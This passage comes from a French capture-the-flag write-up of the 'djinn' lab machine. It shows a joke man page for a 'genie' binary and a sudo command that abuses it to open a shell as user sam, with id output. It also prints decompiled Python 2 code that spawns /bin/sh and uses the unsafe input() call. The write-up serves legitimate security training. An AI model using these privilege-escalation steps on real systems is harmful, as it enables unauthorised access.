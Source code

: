 ```
       -p, --shell

              Well who doesn't love those. You can get shell. Ex: -p "/bin/sh"

       -e, --exec

              Execute command on someone else computer is just too damn fun, but this comes with some restrictions.

       -cmd

              You know sometime all you new is a damn CMD, windows I love you.

SEE ALSO
       mzfr.github.io

BUGS
       There are shit loads of bug in this program, it's all about finding one.

AUTHOR
       mzfr

1.0                                        11 November 2019                                        man(8)
```

Et effectivement c'était ce qui était attendu :

```shellsession
nitish@djinn:/tmp$ sudo -u sam /usr/bin/genie -cmd a
my man!!
$ id
uid=1000(sam) gid=1000(sam) groups=1000(sam),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare)
```

Dans le dossier de l'utilisateur on trouve un fichier caché qui est du code Python 2 compilé :

`.pyc: python 2.7 byte-compiled`

Comme sur un précédent CTF j'utilise une image Docker avec Python 3.6 pour y lancer `uncompyle6` car ce désassembleur Python a du mal avec les versions plus récentes. J'obtiens le code désassemblé suivant :

```python
from getpass import getuser
from os import system
from random import randint

def naughtyboi():
    print 'Working on it!! '


def guessit():
    num = randint(1, 101)
    print 'Choose a number between 1 to 100: '
    s = input('Enter your number: ')
    if s == num:
        system('/bin/sh')
    else:
        print 'Better Luck next time'


def readfiles():
    user = getuser()
    path = input('Enter the full of the file to read: ')
```
